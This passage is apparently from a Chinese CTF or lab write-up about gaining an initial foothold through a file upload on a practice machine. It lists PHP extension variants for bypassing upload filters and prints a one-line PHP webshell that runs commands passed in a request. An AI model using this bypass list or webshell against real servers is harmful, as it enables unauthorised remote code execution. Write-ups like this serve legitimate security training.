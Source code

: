   发现了/uploads，在这个目录下找到了上传的文件`http://10.10.11.241:8080/uploads/cmd.jpg`



# 02、获取初始立足点

## 2.1、文件上传利用

1. 测试发现无法直接上传.php后缀的文件，尝试文件上传绕过

   我尝试了修改后缀名，修改文件头，都没有成功。

   

2. 枚举可以允许上传的文件后缀名

   因为已经确认了是php类型的站点，因此尝试所有可用的php后缀，下列后缀名表达来自于[hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

   ```
   .php
   .php2
   .php3
   .php4
   .php5
   .php6
   .php7
   .phps
   .phps
   .pht
   .phtm
   .phtml
   .pgif
   .shtml
   .htaccess
   .phar
   .inc
   .hphp
   .ctp
   .module
   ```

   这里确定`.phtml、.pgif、.shtml、.htaccess、.phar、 .inc、.hphp、.ctp、.module`这些后缀名有效

   ![image-20231122110510272](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221339493.png)

上传cmd.phar成功，但是下列简单的webshell并不能得到回显。

```
<?php echo system($_REQUEST["cmd"]);?>
```

![image-20231122111223896](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221339135.png)



